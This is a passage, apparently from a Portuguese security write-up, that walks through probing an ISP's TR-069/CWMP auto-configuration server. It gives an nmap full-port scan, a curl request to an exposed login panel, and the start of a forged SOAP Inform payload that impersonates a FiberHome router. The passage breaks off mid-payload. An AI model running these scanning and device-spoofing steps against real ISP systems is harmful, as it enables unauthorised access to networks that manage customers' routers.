 
## 🛰️ Etapa 1 – Port Scan no IP do Servidor ACS

```bash
sudo nmap -sS -Pn --open -T2 -n -v -p- <IP do ISP>
```
![Scan](prints/1.png)

- Resultado:

![Resultado](prints/2.png)

| Porta     | Estado  | Serviço     |
|-----------|---------|-------------|
| 80/tcp	|  open	  |   http      |
| 443/tcp	|  open	  |   https     |
| 3000/tcp	|  open	  |   ppp       |
| 4007/tcp	|  open	  |   pxc-splr  |
| 7547/tcp	|  open	  |   cwmp      |
| 57547/tcp	|  open	  |   unknown   |

- Portas abertas sem filtragem aparente.
- Portas incomuns indicam possível exposição indevida.

## 🔐 Etapa 2 – Teste Requisição HTTPS na Porta 7547

```bash
curl -k -i https://<IP_do_ISP>:7547/login
```

![Curl Porta 7547](prints/3.png)

Resposta:

- HTTP/1.1 200 OK
- Cookies de sessão e linguagem definidos
- Retorno de HTML funcional (1173437 byte)
- Indícios claros de painel web funcional acessível externamente

## 📄 Etapa 3 – Construção da Requisição SOAP (inform.xml)

Payload XML simulando comunicação legítima do roteador (CPE) com o ACS via CWMP/TR-069.

Eventos simulados: BOOTSTRAP e BOOT.

Inform.XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope
    xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsd="http://www.w3.org/2001/XMLSchema"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:cwmp="urn:dslforum-org:cwmp-1-0">
  <SOAP-ENV:Header>
    <cwmp:ID SOAP-ENV:mustUnderstand="1">1234567890</cwmp:ID>
  </SOAP-ENV:Header>
  <SOAP-ENV:Body>
    <cwmp:Inform>
      <DeviceId>
        <Manufacturer>FiberHome</Manufacturer>
        <OUI>000AC2</OUI>
        <ProductClass>HG6145F</ProductClass>
```